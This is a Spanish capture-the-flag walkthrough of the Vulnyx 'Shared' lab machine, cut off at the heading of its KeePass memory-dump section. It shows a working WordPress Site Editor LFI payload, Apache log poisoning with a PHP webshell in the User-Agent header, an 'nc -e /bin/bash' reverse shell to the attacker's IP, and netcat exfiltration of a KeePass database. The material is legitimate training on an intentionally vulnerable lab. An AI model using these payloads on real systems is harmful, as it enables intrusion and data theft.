- - -

## Introducción

En esta máquina de **Vulnyx**, **Shared**, nos enfrentamos a un escenario centrado en la enumeración de servicios web y de red para encadenar varias vulnerabilidades hasta la toma completa del sistema. Partiremos de una instalación de **WordPress** protegida por *virtual hosting*, donde explotaremos un **LFI** en un plugin vulnerable (*CVE-2018-7422*) y lo derivaremos a un **RCE** mediante **Log Poisoning** sobre los logs de Apache2, consiguiendo así el acceso inicial a la máquina.

Durante la escalada de privilegios tocaremos varias piezas interesantes: la extracción de una base de datos de contraseñas KeePass a partir de un volcado de memoria (*CVE-2023-32784*), y finalmente el abuso de una configuración insegura de **NFS** (`no_root_squash`) para obtener una shell con permisos de root.

Por la variedad de técnicas que combina (LFI, Log Poisoning, forense ligero sobre un volcado de memoria y abuso de NFS), esta máquina es un buen ejercicio de dificultad media para seguir reforzando la metodología de cara a la eJPTv2 y certificaciones similares.

## Fase de Reconocimiento 

- - -

Esta máquina, al iniciarse, ya muestra en el panel de login de la consola cierta información, entre ella su dirección de red, por lo que podemos ahorrarnos la fase de identificación del objetivo en la red.

{: width="400" }

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.22 -oN allPorts
```

```bash
grep '^[0-9]' allPorts | cut -d '/' -f1 | xargs | sort | tr ' ' ','
```



```bash
nmap -p22,80,111,2049,41445,43639,49905,52117,55147 -sCV 10.0.2.22 -oN targeted
```

{: width="800" }

Tras el escaneo de puertos encontramos un servicio *SSH* (no vulnerable a enumeración de usuarios >7.7), un servicio *HTTP* por el puerto 80 desplegado con *Apache2*, el puerto 111 correspondiente al servicio *rpcbind* y el puerto 2049 correspondiente al servicio *NFS*. Estos son los puertos que más nos deben llamar la atención y debemos enumerar a continuación.

## Enumeración 

- - -

### Enumeración de servicio HTTP 

```bash
whatweb http://10.0.2.22
```



```bash
nmap -p80 --script http-enum 10.0.2.22 -oN webScan
```

{: width="700" }

La enumeración con el script de `nmap` *http-enum* nos reporta que parece haber una página de login para el CMS **WordPress**… Vamos a acceder a través del navegador y validar esta información.

{: width="1000" }

De primeras parece una instalación por defecto de Apache2; si accedemos a la ruta que reportaba `nmap` (*/wordpress/wp-login.php*):

{: width="400" }

Encontramos esta página de login en la que los recursos no están cargando correctamente, por lo que nos hace pensar inmediatamente en que se está aplicando **virtual hosting**. Si echamos un vistazo al código fuente para tratar de ver de qué dominio intenta cargar los recursos de la web, vemos:



Encontramos el dominio “shared.nyx”, por lo que vamos a añadirlo al archivo */etc/hosts* para que nuestra máquina sepa resolverlo.

{: width="400" }

Ahora, si recargamos la página web:

{: width="250" }

Todo carga correctamente. Bien, antes de nada vamos a aplicar *fuzzing* para tratar de encontrar archivos y rutas en la web.

```bash
feroxbuster -u http://10.0.2.22 -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40
```

{: width="900" }

Con este comando descubrimos muchas rutas dentro del gestor de contenido, entre las que destacamos: */wordpress/wp-admin/*, */wordpress/backups/*, */wordpress/wp-content/uploads/*, entre otras. Vamos a echar un vistazo a la página principal */wordpress*:

{: width="1000" }

En las pestañas de arriba vemos una sección “Contact us” en la que encontramos un formulario en el que podemos meter nuestro input como usuario, y tendremos que validar cómo reacciona el servidor a este.

{: width="700" }

Antes de nada, como estamos ante un **WordPress**, vamos a utilizar la herramienta específica `wpscan` para enumerarlo.

### Enumeración de WordPress 

```bash
wpscan --url http://shared.nyx/wordpress -e vp,u --api-token="token"
```

Este escaneo nos reporta mucha información relevante, como:

{: width="600" }

{: width="800" }

{: width="600" }

{: width="600" }

Entre lo descubierto cabe destacar la versión de **WordPress** correspondiente a la 6.4.2, y que la herramienta nos indica que al menos tiene treinta y tres vulnerabilidades conocidas. Podemos validar esta información por nuestro lado ejecutando una búsqueda con `searchsploit`.

```bash
searchsploit wordpress 6.4.2
```



No encontramos nada que nos llame especialmente la atención por esta vía; vamos a echar un vistazo a las vulnerabilidades reportadas por la herramienta. De cara a los plugins, nos reporta que se está utilizando un plugin vulnerable a **LFI**, “Site Editor”. Vamos a echarle un vistazo en `searchsploit`.

```bash
searchsploit wordpress plugin site editor
```



```bash
searchsploit -x php/webapps/44340.txt
```



### Enumeración de servicio **NFS**

Antes de ver realmente si el gestor de contenido es vulnerable, vamos a enumerar un poco el servicio *NFS*:

```bash
showmount -e 10.0.2.22
```

{: width="250" }

Vemos que hay varias carpetas compartidas en red y que cualquiera puede acceder a ellas (asterisco); vamos a montarlas en nuestro equipo una a una y echar un vistazo a su contenido.

```bash
mount -t nfs 10.0.2.22:/shared/j4ckie /mnt/NFS
```

{: width="500" }

Encontramos ese archivo sin relevancia para el CTF.

```bash
mount -t nfs 10.0.2.22:/shared/condor /mnt/NFS
```

{: width="500" }

Más de lo mismo, otro archivo sin relevancia para el CTF.

```bash
mount -t nfs 10.0.2.22:/shared/tmp /mnt/NFS
```

Esta última compartición en red no contiene ningún archivo. No sacamos nada relevante de este servicio NFS, es un *rabbithole*. Vamos a tratar de explotar el **LFI**.

## Explotación 

- - -

### Explotación de **LFI** *CVE-2018-7422*

Vamos a validar si este servidor es vulnerable a este **LFI**:

```http
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

{: width="700" }

Efectivamente es vulnerable y podemos listar el contenido del archivo */etc/passwd*. De este archivo sacamos tres usuarios del sistema: “j4ckie”, “condor” y “jackondor”. En este punto lo interesante sería tener capacidad de lectura en algún archivo de logs, aprovechando que esta máquina cuenta tanto con el servicio *SSH* como con el *HTTP* desplegado con *Apache2*, para tratar de ejecutar un **Log Poisoning**.

Podemos tratar de incluir estos archivos con el **LFI**:

```http
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/auth.log
```



Antes de ver si somos capaces de incluir el archivo */var/log/apache2/access.log*, vamos a mandar alguna petición reconocible para que la identifiquemos a simple vista, por ejemplo:

```bash
curl -s -X GET "http://shared.nyx/wordpress/" -H "User-Agent: PWNED"
```

Una vez hecho, probamos a incluir el archivo:

```http
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log
```



¡Bien! Somos capaces de incluir el archivo y controlar el contenido del campo **User-Agent** de la petición *HTTP*, por lo que podemos inyectar código php para tratar de que el servidor lo interprete.

### Log Poisoning (Apache2)

Sabiendo esto, podemos tratar de conseguir una *webShell* para ganar acceso a la máquina.

```bash
curl -s -X GET "http://shared.nyx/wordpress/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

Desde la URL le pasamos al parámetro “cmd” el comando a ejecutar:

```http
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log&cmd=id
```



Y bien, conseguimos explotar el **Log Poisoning** derivando el **LFI** a un **RCE**, de forma que podemos llevar a cabo la intrusión a la máquina víctima mediante una *reverse shell*. Para ello:

```bash
# nos ponemos en escucha en nuestra máquina atacante
nc -nlvp 443
```

Y lanzamos la petición maliciosa:

```http
http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log&cmd=nc -e /bin/bash 10.0.2.13 443
```

{: width="400" }

De esta forma conseguimos completar la intrusión a la máquina víctima. Antes de continuar vamos a aplicar un tratamiento de la TTY.

### Tratamiento de la TTY

```bash
script /dev/null -c bash
# ctrl + z 
stty raw -echo;fg
export TERM=xterm SHELL=bash
stty rows 53 columns 206
```

## Escalada de privilegios 

- - -

### Enumeración local 

```bash
grep 'sh$' /etc/passwd
```



Bien, en este punto, con acceso a la máquina víctima, si recordamos, durante la enumeración del servidor web encontramos un directorio */backups* al que no teníamos acceso; vamos a acceder a él desde la misma máquina para ver su contenido.

```bash
find / -name "*backups" -ls 2>/dev/null
```



Vamos a acceder al directorio */backups*, sobre el que tenemos permisos como usuario www-data.

{: width="600" }

Nos llama la atención el archivo “cp-sharedbbdd.zip”, parece que puede contener credenciales de una base de datos o algo relacionado. Vamos a descomprimirlo y ver su contenido:

```bash
unzip cp-sharedbbdd.zip
```

{: width="600" }

Contiene un archivo “.kdbx” perteneciente a una base de datos de contraseñas de KeePass; con esto podemos tratar de crackear el hash de la contraseña maestra y acceder al contenido.

#### Transferencia de archivos desde máquina víctima a nuestra máquina atacante

Lo primero será pasarnos este archivo a nuestra máquina atacante, en este caso lo haré con `nc`:

```bash
# desde nuestra máquina atacante
nc -nlvp 4444 > sharedbbdd.kdbx
```

```bash
nc 10.0.2.13 4444 < sharedbbdd.kdbx
```

{: width="600" }

Una vez tenemos el archivo, aplicamos el ataque de fuerza bruta:

```bash
keepass2john sharedbbdd.kdbx > hash
```

```bash
hashcat -m 13400 -a 0 hash /usr/share/wordlists/rockyou.txt
```

{: width="500" }

Tras recorrer todo el diccionario *rockyou.txt*, no encontramos ninguna contraseña válida; era un *rabbithole*.

### Extracción de Clave Maestra de KeePass vía Volcado de Memoria (**CVE-2023-32784**)

